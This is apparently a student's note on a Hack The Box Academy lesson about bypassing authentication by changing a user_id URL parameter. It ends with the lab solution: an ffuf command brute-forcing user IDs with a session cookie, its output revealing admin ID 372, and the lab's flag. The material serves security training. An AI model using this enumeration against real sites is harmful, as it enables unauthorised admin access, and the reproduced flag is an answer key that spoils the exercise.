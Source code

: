 ﻿---
aliases:
 - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as`Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

---

## Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user`htb-stdnt`. After logging in, we are redirected to`/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

 ![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the`user_id` parameter, let us remove it from our request to`/admin.php`. When doing so, we are redirected back to the login screen at`/index.php`, even though our session provided in the`PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter`user_id` is related to authentication. We can bypass authentication entirely by accessing the URL`/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name`user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the`Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the`user_id` parameter.

---

## Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

# Question
---
![Pasted image 20250214182725.png](../../../../IMAGES/Pasted%20image%2020250214182725.png)

Once we've authenticated, we can see the following:

![Pasted image 20250214182813.png](../../../../IMAGES/Pasted%20image%2020250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist : FUZZ: /home/samsepiol/digits.txt
 :: Header : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372 [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![Pasted image 20250214183900.png](../../../../IMAGES/Pasted%20image%2020250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```
